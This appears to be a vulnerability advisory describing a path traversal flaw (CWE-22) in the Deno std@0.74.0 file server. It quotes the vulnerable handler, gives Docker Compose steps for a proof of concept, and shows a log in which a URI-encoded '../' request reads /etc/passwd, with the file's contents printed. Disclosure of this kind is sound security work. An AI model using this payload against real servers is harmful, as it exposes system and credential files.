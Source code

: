 # Deno File Server (std@0.74.0) Path Traversal

This document describes "CWE-22: Improper Limitation of a Pathname to a Restricted Directory ('Path Traversal')" found in [Deno File Server](https://deno.land/manual/examples/file_server) in Deno Standard Modules 0.74.0.

## Summary

Deno File Server in [std@0.74.0](https://deno.land/std@0.74.0) has Path Traversal vulnerability. An attacker can exploit it by sending a crafted HTTP request containing path traversal character sequences to the server.

## Details

Here is the code of the handler for serving file content or directory listing to a client.

- [The vulnerable handler](https://deno.land/std@0.74.0/http/file_server.ts#L364-402):

    ```ts
      [...]
      const handler = async (req: ServerRequest): Promise<void> => {
        let normalizedUrl = posix.normalize(req.url);         // [[ 1 ]]
        try {
          normalizedUrl = decodeURIComponent(normalizedUrl);  // [[ 2 ]]
        } catch (e) {
          if (!(e instanceof URIError)) {
              throw e;
          }
        }
        const fsPath = posix.join(target, normalizedUrl);     // [[ 3 ]]

        let response: Response | undefined;
        try {
          const fileInfo = await Deno.stat(fsPath);           // [[ 4 ]]
          if (fileInfo.isDirectory) {
            if (dirListingEnabled) {
              response = await serveDir(req, fsPath);         // [[ 5 ]]
            } else {
              throw new Deno.errors.NotFound();
            }
          } else {
            response = await serveFile(req, fsPath);          // [[ 6 ]]
          }
        } catch (e) {
          console.error(e.message);
          response = await serveFallback(req, e);
        } finally {
          if (CORSEnabled) {
            assert(response);
            setCORS(response);
          }
          serverLog(req, response!);
          try {
            await req.respond(response!);
          } catch (e) {
            console.error(e.message);
          }
        }
      };
      [...]
    ```

It performs normalization of path part of a user-supplied URL at [[ 1 ]] before decoding URI components at [[ 2 ]]. At [[ 3 ]], it joins `target`, the base directory for file server, and the normalized path.  Then, it serves file content or directory listing of `fsPath` by `serveFile` at [[ 5 ]] or `serveDir` at [[ 6 ]] on the result of `fileInfo` at [[ 4 ]].  
If an attacker supplies a URL with URI-encoded path traversal character sequences as `req.url`, it bypasses path normalization due to the order of [[ 1 ]] and [[ 2 ]].

## Exploitation

There are services constructed with Docker Compose for demonstrating PoC. We can reproduce the issue with the following instructions.

1. Build the services.

    ```sh
    docker-compose build
    ```

2. Launch the services.

    ```sh
    docker-compose up
    ```

It performs exploitaion automatically. A sample output is here:

- A sample output of PoC demo

    ```none
    % COMPOSE_DOCKER_CLI_BUILD=1 DOCKER_BUILDKIT=1 docker-compose up
    WARNING: Native build is an experimental feature and could change at any time
    Starting 2020-10-21_deno-std-0740-file-server-path-traversal_victim_1 ... done
    Starting 2020-10-21_deno-std-0740-file-server-path-traversal_user_1   ... done
    Starting 2020-10-21_deno-std-0740-file-server-path-traversal_attacker_1 ... done
    Attaching to 2020-10-21_deno-std-0740-file-server-path-traversal_victim_1, 2020-10-21_deno-std-0740-file-server-path-traversal_user_1, 2020-10-21_deno-std-0740-file-server-path-traversal_attacker_1
    victim_1    | HTTP server listening on http://0.0.0.0:4507/
    user_1      | 🦕 .oO( Deno File Server is running! )
    victim_1    | [2020-10-21 06:07:26] "GET /deno.txt HTTP/1.1" 200
    2020-10-21_deno-std-0740-file-server-path-traversal_user_1 exited with code 0
    attacker_1  | *:__main__:Reading '/etc/passwd' from 'http://victim:4507'
    victim_1    | [2020-10-21 06:07:26] "GET /%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F../etc/passwd HTTP/1.1" 200
    attacker_1  | root:x:0:0:root:/root:/bin/bash
    attacker_1  | daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    attacker_1  | bin:x:2:2:bin:/bin:/usr/sbin/nologin
    attacker_1  | sys:x:3:3:sys:/dev:/usr/sbin/nologin
    attacker_1  | sync:x:4:65534:sync:/bin:/bin/sync
    attacker_1  | games:x:5:60:games:/usr/games:/usr/sbin/nologin
    attacker_1  | man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
    attacker_1  | lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
    attacker_1  | mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
    attacker_1  | news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
    attacker_1  | uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
    attacker_1  | proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
    attacker_1  | www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
    attacker_1  | backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
    attacker_1  | list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
    attacker_1  | irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
    attacker_1  | gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
    attacker_1  | nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
    attacker_1  | _apt:x:100:65534::/nonexistent:/usr/sbin/nologin
    attacker_1  | 
    2020-10-21_deno-std-0740-file-server-path-traversal_attacker_1 exited with code 0
    ```
